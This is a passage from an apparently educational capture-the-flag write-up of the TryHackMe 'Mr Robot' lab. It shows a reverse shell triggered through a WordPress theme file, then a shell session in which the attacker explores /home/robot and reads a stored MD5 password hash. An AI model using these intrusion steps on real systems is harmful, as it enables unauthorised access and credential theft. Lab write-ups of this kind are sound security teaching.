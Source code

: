 
![Editor](assets/img/tryhackme/mrrobot/robot-01.png "Editor")



We enter the URL

`http://10.10.250.121/wp-content/themes/twentyfifteen/archive.php`

and we are connected!!!

Lets check what we can do with the `reverse shell`:

```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (2183): Inappropriate ioctl for device
bash: no job control in this shell
daemon@linux:/$ cd home
cd home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt
password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ head key-2-of-3.txt
head key-2-of-3.txt
head: cannot open 'key-2-of-3.txt' for reading: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```
